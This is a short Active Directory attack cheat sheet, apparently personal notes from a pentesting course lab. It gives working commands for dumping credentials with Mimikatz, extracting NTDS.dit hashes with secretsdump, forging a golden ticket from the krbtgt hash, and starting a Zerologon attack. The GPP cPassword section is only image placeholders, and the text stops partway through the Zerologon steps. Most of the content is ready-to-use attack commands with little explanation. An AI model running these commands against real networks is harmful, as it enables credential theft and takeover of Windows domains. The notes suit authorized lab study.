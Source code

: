 GPP attack(cPassword attack)=>
Sample Groups.xml file=>
![image3](images/image3.jpg)

Cracking password=>
![image4](images/image4.jpg)


Credential Dumping with Mimikatz=>

Mimikatz:https://github.com/gentilkiwi/mimikatz

Below command is must on Mimikatz!
```bash
mimikatz # privilege::debug
```

Reminder! When you write module_name then put "::" then , clicking Tab, you can get **HELP**

1.sekurlsa : This module is used to enumerate credentials.
Example:
```bash
mimikatz # sekurlsa:logonPasswords
```

# After compromising Domain

Dumping NTDS.dit=>
```bash
secretsdump.py MARVEL.local/pparker:'Password2'@192.168.138.132 -just-dc-ntlm 
```

Golden Ticket Attacks=>

1.First, we get NTLM hash ,SID and relative ID of krbtgt account from KDC
```bash
mimikatz # privilege::debug
mimikatz # lsadump::lsa /inject /name:krbtgt
```

2.Then using above creds, we just create golden ticket.
```bash
kerberos::golden /User:Administrator /domain:marvel.local /sid:[SID_VALUE] /krbtgt:[KRBTGT_NTLM_HASH] /id:[RELATIVE_ID] /ptt
```

# Additional AD attacks

CVE-2020-1472=> This is Abusing **Zerologon**.

URL=>https://github.com/SecuraBV/CVE-2020-1472

How to do=>

1.We get Administrator hash from here
```bash
secretsdump.py -just-dc MARVEL/HYDRA-DC\$@192.168.138.132
```
